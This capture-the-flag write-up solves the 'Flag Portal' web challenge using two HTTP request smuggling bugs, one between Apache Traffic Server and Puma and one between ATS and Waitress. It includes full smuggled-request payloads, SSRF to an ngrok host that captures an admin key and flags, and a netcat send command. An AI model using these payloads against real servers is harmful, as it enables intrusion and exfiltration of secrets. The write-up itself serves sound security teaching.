 # Flag Portal - Solution

**Author**: zeyu2001

**Category**: Web

2 HTTP request smuggling vulns.

## 1) Between ATS and Puma

Conditions that make this possible:

- ATS interprets `"chunked"` as `chunked`
- Puma ignores invalid / unsupported TE values

First, we need to smuggle a request to `/admin` in `flagportal` to perform an SSRF.

```http
GET / HTTP/1.1
Host: example.com
Transfer-Encoding: "chunked"

DELETE /admin?backend=http://f754-42-60-216-15.ngrok.io HTTP/1.1
Host: example.com
Padding: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0: x

```

Here's how this works.

For ATS:

- ATS interprets `"chunked"` as `chunked`.
- It sees the first two characters of `DELETE`, and interprets `0xDE` as the chunk size.
- Using the padding header, we add enough bytes so that we have `0xDE` bytes when we reach `0: x`.
- The `0: x` line is parsed as the chunk terminator.
- ATS only sees one request, `GET /`.

For Puma:

- Puma ignores the invalid `"chunked"` transfer encoding.
- The content length of the first request is then 0.
- Puma sees two requests, `GET /` and `DELETE /admin`.

By hosting our own server, we can catch the request, including the `Admin-Key`.

```http
POST / HTTP/1.1
Host: f754-42-60-216-15.ngrok.io
User-Agent: Ruby
Content-Length: 37
Accept: */*
Accept-Encoding: gzip;q=1.0,deflate;q=0.6,identity;q=0.3
Admin-Key: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
First-Flag: SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}
X-Forwarded-For: 42.60.216.15
X-Forwarded-Proto: http

target=https%3A%2F%2Fbit.ly%2F3jzERNa
```

This gives us the first flag, `SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}`.

Note that with the above request smuggling method, we won't be able to get the second response from Puma, which is why there are two parts to this challenge. ATS will only show the first response even if we add more requests after the `DELETE` request above.

## 2) Between ATS and Waitress

Conditions that make this possible:

- ATS processes LF as line endings (instead of CRLF)
- Waitress allows LF in chunked extensions

```http
GET /api HTTP/1.1
Host: backend
Transfer-Encoding: chunked

2;[\n]xx
d9
0

POST /flag-plz HTTP/1.1
Host: backend
ADMIN-KEY: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

target=http://f754-42-60-216-15.ngrok.io

0

```

Notice a `\n` is added to the chunk extension. Since ATS processes the LF as the end-of-line, it sees the following:

```http
GET /api HTTP/1.1
Host: backend
Transfer-Encoding: chunked

2
xx
d9
0

POST /flag-plz HTTP/1.1
Host: backend
ADMIN-KEY: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

target=http://f754-42-60-216-15.ngrok.io

0

```

The second request is encapsulated in the chunked content of the first request.

Waitress, on the other hand, would see both requests:

```http
GET /api HTTP/1.1
Host: backend
Transfer-Encoding: chunked

2
d9
0

POST /flag-plz HTTP/1.1
Host: backend
ADMIN-KEY: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

target=http://f754-42-60-216-15.ngrok.io

0

```

`python3 payload.py | nc localhost 8000`

From our receiving server, we can see the flag: `SEE{y4y_r3qu3st_smuggl1ng_1s_fun_e28557a604fb011a89546a7fdb743fe9}`

```http
POST / HTTP/1.1
Host: f754-42-60-216-15.ngrok.io
User-Agent: python-requests/2.27.1
Content-Length: 106
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 42.60.216.15
X-Forwarded-Proto: http

flag=SEE%7By4y_r3qu3st_smuggl1ng_1s_fun_e28557a604fb011a89546a7fdb743fe9%7D&congrats=Thanks+for+playing%21
```

## Credits

- Thesis by Matthias Grenfeldt and Asta Olofsson where they investigated ATS in-depth. The vulnerabilities on the ATS-side of things in this challenge were discovered by them and detailed in this thesis.

http://kth.diva-portal.org/smash/get/diva2:1596031/FULLTEXT01.pdf

- For Puma and Waitress, these were vulnerabilities I found when researching on web servers and request smuggling. I suppose by the time this challenge comes out, patches would have been released (otherwise you wouldn't have been playing this challenge :<). You can refer to the relevant GitHub Security Advisories or the MITRE CVE website for more information on the vulnerabilities.
